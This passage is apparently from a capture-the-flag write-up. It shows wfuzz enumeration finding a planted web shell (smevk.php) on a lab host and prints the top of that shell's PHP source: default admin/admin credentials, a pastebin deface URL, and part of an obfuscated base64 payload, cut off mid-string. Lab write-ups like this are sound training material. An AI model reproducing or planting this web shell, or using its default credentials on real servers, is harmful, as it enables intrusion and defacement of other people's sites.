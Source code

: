 ```bash
===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                                                                                           
===================================================================

000000016:   200        58 L     100 W    1261 Ch     "smevk.php"                                                                                                                                       
000000033:   200        58 L     100 W    1261 Ch     "smevk.php"                                                                                                                                       

Total time: 1.884043
Processed Requests: 34
Filtered Requests: 32
Requests/sec.: 18.04628
```

## Initial Foothold

### Smevk\_Pathan Shell v3

Using `wfuzz` I was able to find the web shell used at `http://10.10.10.181/smevk.php`.I navigated to this page and got a login screen.

![Screenshot of the web shell backdoor](/assets/img/screenshot_2020-06-22_13-13-58.png)

I opened the code of the `smevk.php` web shell that I had downloaded earlier and didn't have to search long to find what I was looking for.

```php
<?php 
/*
SmEvK_PaThAn Shell v3 Coded by Kashif Khan .
https://www.facebook.com/smevkpathan
smevkpathan@gmail.com
Edit Shell according to your choice.
Domain read bypass.
Enjoy!
*/
//Make your setting here.
$deface_url = 'http://pastebin.com/raw.php?i=FHfxsFGT';  //deface url here(pastebin).
$UserName = "admin";                                      //Your UserName here.
$auth_pass = "admin";                                  //Your Password.
//Change Shell Theme here//
$color = "#8B008B";                                   //Fonts color modify here.
$Theme = '#8B008B';                                    //Change border-color accoriding to your choice.
$TabsColor = '#0E5061';                              //Change tabs color here.
#-------------------------------------------------------------------------------

?>
<?php
$smevk = "PD9waHAKCiRkZWZhdWx0X2FjdGlvbiA9ICdGaWxlc01hbic7CkBkZWZpbmUoJ1NFTEZfUEFUSCcsIF9fRklMRV9fKTsKaWYoIHN0cnBvcygkX1NFUlZFUlsn\
SFRUUF9VU0VSX0FHRU5UJ10sJ0dvb2dsZScpICE9PSBmYWxzZSApIHsKICAgIGhlYWRlcignSFRUUC8xLjAgNDA0IE5vdCBGb3VuZCcpOwog\
ICAgZXhpdDsKfQoKQHNlc3Npb25fc3RhcnQoKTsKQGVycm9yX3JlcG9ydGluZygwKTsKQGluaV9zZXQoJ2Vycm9yX2xvZycsTlVMTCk7CkBp\
bmlfc2V0KCdkaXNwbGF5X2Vycm9ycycsMCk7CkBpbmlfc2V0KCdsb2dfZXJyb3JzJywwKTsKQGluaV9zZXQoJ21heF9leGVjdXRpb25fdGlt\
```